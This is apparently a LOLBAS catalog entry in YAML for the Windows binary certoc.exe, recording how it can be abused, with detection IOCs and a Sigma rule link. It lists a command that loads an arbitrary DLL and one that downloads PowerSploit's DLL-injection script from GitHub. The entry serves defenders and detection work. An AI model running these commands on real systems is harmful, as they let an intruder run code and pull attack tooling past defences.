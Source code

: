```yaml
---
Name: CertOC.exe
Description: Used for installing certificates
Author: 'Ensar Samil'
Created: 2021-10-07
Commands:
  - Command: certoc.exe -LoadDLL "C:\test\calc.dll"
    Description: Loads the target DLL file
    Usecase: Execute code within DLL file
    Category: Execute
    Privileges: User
    MitreID: T1218
    OperatingSystem: Windows Server 2022
  - Command: certoc.exe -GetCACAPS https://raw.githubusercontent.com/PowerShellMafia/PowerSploit/master/CodeExecution/Invoke-DllInjection.ps1
    Description: Downloads text formatted files
    Usecase: Download scripts, webshells etc.
    Category: Download
    Privileges: User
    MitreID: T1105
    OperatingSystem: Windows Server 2022
Full_Path:
  - Path: c:\windows\system32\certoc.exe
  - Path: c:\windows\syswow64\certoc.exe
Code_Sample:
  - Code:
Detection:
  - Sigma: https://github.com/SigmaHQ/sigma/blob/62d4fd26b05f4d81973e7c8e80d7c1a0c6a29d0e/rules/windows/process_creation/proc_creation_win_certoc_load_dll.yml
  - IOC: Process creation with given parameter
  - IOC: Unsigned DLL load via certoc.exe
  - IOC: Network connection via certoc.exe
Resources:
  - Link: https://twitter.com/sblmsrsn/status/1445758411803480072?s=20
  - Link: https://twitter.com/sblmsrsn/status/1452941226198671363?s=20
Acknowledgement:
  - Person: Ensar Samil
    Handle: '@sblmsrsn'
---
```

